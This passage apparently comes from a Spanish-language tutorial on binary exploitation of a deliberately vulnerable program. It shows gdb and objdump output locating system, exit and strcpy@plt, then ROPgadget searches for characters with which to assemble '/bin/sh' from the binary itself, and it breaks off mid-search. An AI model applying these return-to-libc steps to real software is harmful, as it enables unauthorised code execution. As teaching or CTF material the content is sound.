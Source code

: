 Ya tenemos dirección donde escribir: 0x0804a018.  
`(gdb) p system  
$1 = {<text variable, no debug info>} 0xf7e01f80 <system>  
(gdb) p exit  
$2 = {<text variable, no debug info>} 0xf7df4f10 <exit>  
[...]  
$ objdump -d -j .plt vuln | grep strcpy  
08048370 <strcpy@plt>:`  
En libc.so.6 podemos encontrar de hecho una cadena /bin/sh, pero no queremos hacerlo así de fácil, ¿verdad?  
Vamos a restringirnos solo a nuestro binario.  
Podemos emplear ROPgadget con la opción `--string` para encontrar cadenas  
`$ python2.7 ROPgadget/ROPgadget.py --binary vuln --string /  
Strings information  
============================================================  
0x08048154 : /  
0x08048158 : /`

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string b  
Strings information  
\============================================================  
0x08048157 : b  
0x0804824f : b  
0x08048276 : b  
0x080482a6 : b  
0x080482cf : b

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string i  
Strings information  
\============================================================  
0x08048156 : i  
0x0804815d : i  
0x0804824e : i  
0x0804825e : i  
0x08048275 : i  
0x08048281 : i  
0x08048298 : i  
0x080482c1 : i  
0x080482f5 : i  
0x080482f6 : i

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string n  
Strings information  
\============================================================  
0x0804815e : n  
0x0804825f : n  
0x08048282 : n  
0x080482a2 : n  
0x080482af : n  
0x080482cb : n

$ python2.7 ROPgadget/ROPgadget.py –binary vuln –string bi  
Strings information  
\============================================================
